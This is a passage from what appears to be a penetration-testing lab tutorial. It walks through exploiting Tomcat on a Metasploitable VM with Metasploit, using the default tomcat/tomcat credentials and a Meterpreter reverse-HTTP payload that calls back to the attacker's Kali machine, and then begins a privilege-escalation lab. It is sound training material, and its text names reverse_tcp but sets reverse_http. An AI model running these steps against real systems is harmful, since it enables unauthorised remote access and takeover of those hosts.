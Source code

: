 As before, we’ll set each variable to the required setting, making sure we provide the default username and password.

```
set HttpPassword tomcat
set HttpUsername tomcat
set RHOST <metasploitable_ip>
set RPORT 8180
```

Now that we need to select a payload for the exploit. Hitting tab a few times reveals java/meterpreter/reverse_tcp. Since we prefer using meterpreter when possible, we’ll select this option.

```
set payload java/meterpreter/reverse_http
```

Once again, “show options” to show payload options.

```
show options
```

We’ll set the payload option to our local IP address.

```
set LHOST <kali_ip>
```

And then run the exploit.

```
run
```

Let’s examine the current UID with the following command.

```
getuid
```

We can see that we’re a local user, and not root. We’ll need to elevate our privileges if possible. Before doing this, we’ll get a little information about the host using the following command.

```
sysinfo
```

## Lab 5: Privilege Escalation

For the next lab, we’ll reuse the meterpreter session we opened previously. We first need to background our current meterpreter session.

```
background
```

Using the following command will show the session number of that Meterpreter session.

```
sessions
```
